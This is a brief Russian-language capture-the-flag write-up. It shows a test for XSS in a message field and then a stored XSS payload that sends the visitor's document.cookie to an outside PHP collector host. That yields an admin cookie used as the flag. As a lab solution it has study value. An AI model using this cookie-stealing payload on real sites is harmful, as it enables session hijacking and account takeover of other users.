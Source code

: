 Воодим в поле сообщения скрипт: <script> alert("666") </script> -> появляется окошко со строкой 666 -> есть xss уязвимость.
<script> document.location.href='http://pindohorseqwe.000webhostapp.com/1.php'+document.cookie; </script> вводим данный код в тело сообщения -> получаем на сайте -|- .txt куки: ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6, что и является флагом.
